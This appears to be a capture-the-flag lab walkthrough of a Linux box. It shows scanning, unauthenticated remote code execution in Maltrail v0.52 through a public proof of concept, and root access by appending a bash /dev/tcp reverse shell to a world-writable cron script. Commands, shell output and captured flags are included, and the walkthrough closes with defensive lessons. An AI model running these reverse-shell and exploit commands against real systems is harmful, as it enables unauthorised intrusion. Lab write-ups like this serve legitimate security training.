

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Linux |
| Difficulty                | Not specified |
| Attack Surface            | Maltrail IDS web interface (port 8338) |
| Primary Entry Vector      | Maltrail v0.52 unauthenticated RCE (CVE-2023-27163) |
| Privilege Escalation Path | World-writable cron script → reverse shell as root |

## Credentials

No credentials obtained.

## Reconnaissance

---
💡 Why this works
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
Open 192.168.178.32:22
Open 192.168.178.32:80
```

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
8338/tcp open  http    Python http.server 3.5 - 3.10
|_http-title: Maltrail
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Maltrail/0.52
```

Directory enumeration on port 8338 identified the Maltrail login endpoint:

```bash
feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 50 -r --timeout 3 --no-state -s 200,301,302,401,403 -x php,html,txt -u http://$ip:8338
```

```bash
200      GET      111l      432w     7091c http://192.168.178.32:8338/
200      GET        1l        1w        4c http://192.168.178.32:8338/ping
401      GET        0l        0w        0c http://192.168.178.32:8338/events
```

## Initial Foothold

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

Maltrail v0.52 is vulnerable to unauthenticated RCE via the `username` parameter in the login endpoint. A public PoC was used:

https://github.com/spookier/Maltrail-v0.53-Exploit

```bash
python3 exploit.py 192.168.45.166 80 http://192.168.178.32:8338
```

```bash
nc -lvnp 80
```

```bash
connect to [192.168.45.166] from (UNKNOWN) [192.168.178.32] 34246
$
```

Retrieved local.txt:

```bash
snort@ochima:/opt/maltrail-0.53$ find / -iname local.txt 2>/dev/null
/home/snort/local.txt
snort@ochima:/opt/maltrail-0.53$ cat /home/snort/local.txt
e3c3b4d04707e71073979ac1051c2375
```

💡 Why this works
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## Privilege Escalation

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

`pspy64` revealed a cron job running as root every minute:

```bash
2026/03/01 00:32:01 CMD: UID=0     PID=13020  | /bin/bash /var/backups/etc_Backup.sh
2026/03/01 00:32:01 CMD: UID=0     PID=13019  | /bin/sh -c /var/backups/etc_Backup.sh
2026/03/01 00:32:01 CMD: UID=0     PID=13018  | /usr/sbin/CRON -f -P
```

The script was world-writable:

```bash
snort@ochima:/tmp$ ls -la /var/backups/etc_Backup.sh
-rwxrwxrwx 1 root root ... /var/backups/etc_Backup.sh
```

```bash
snort@ochima:/tmp$ cat /var/backups/etc_Backup.sh
#! /bin/bash
tar -cf /home/snort/etc_backup.tar /etc
```

A reverse shell was appended to the script:

```bash
echo '/bin/bash -i >& /dev/tcp/192.168.45.166/80 0>&1' >> /var/backups/etc_Backup.sh
```

```bash
snort@ochima:/tmp$ cat /var/backups/etc_Backup.sh
#! /bin/bash
tar -cf /home/snort/etc_backup.tar /etc
/bin/bash -i >& /dev/tcp/192.168.45.166/80 0>&1
```

After the next cron execution:

```bash
nc -lvnp 80
```

```bash
connect to [192.168.45.166] from (UNKNOWN) [192.168.178.32] 44098
bash: cannot set terminal process group (13114): Inappropriate ioctl for device
bash: no job control in this shell
root@ochima:~#
```

```bash
root@ochima:~# cat /root/proof.txt
39da7501d16cfd741104861ccb4f7eb4
```

💡 Why this works
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## Lessons Learned / Key Takeaways

- Keep Maltrail (and similar security tooling) updated — running vulnerable IDS software defeats its own purpose.
- Never set world-writable permissions on cron scripts executed by root (`-rwxrwxrwx`).
- Cron jobs running privileged commands should execute scripts owned by root with restricted permissions (e.g., `chmod 700`).
- Regularly audit cron jobs and their target script permissions.

### Attack Flow

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.



## References

- CVE-2023-27163 (Maltrail RCE): https://nvd.nist.gov/vuln/detail/CVE-2023-27163
- Maltrail RCE PoC: https://github.com/spookier/Maltrail-v0.53-Exploit
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
- feroxbuster: https://github.com/epi052/feroxbuster
- pspy: https://github.com/DominicBreuker/pspy
